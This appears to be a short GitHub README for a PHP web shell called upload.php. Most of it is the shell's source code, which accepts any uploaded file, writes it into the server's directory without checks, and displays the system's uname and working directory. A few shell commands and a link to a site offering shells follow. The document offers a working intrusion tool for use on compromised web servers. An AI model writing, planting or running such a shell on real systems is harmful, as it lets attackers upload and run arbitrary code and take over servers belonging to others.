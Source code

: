 # webshell simple upload.php.

<img style="float:left" alt="route logo" src="https://github.com/hackingyseguridad/webshell/blob/master/webshell.png"> 


vim upload.php

<center><form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader">
<center><input type="file" name="file" size="50"><input name="_upl" type="submit" id="_upl" value="Upload"></form></center>
<?php if( $_POST['_upl'] == "Upload" ) { if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo 'Done !!'; } else { echo 'Failed :('; }} 
echo "<center><br><b>".php_uname()."</b><br></center>";
echo "<center><p><br><b>".getcwd()."</b><br></p></center>";
?>

cd ..

chmod +r carpeta

cd carpeta


img style="float:left" alt="route logo" src="https://github.com/hackingyseguridad/webshell/blob/master/shell.png"> 


http://deepshells.com/
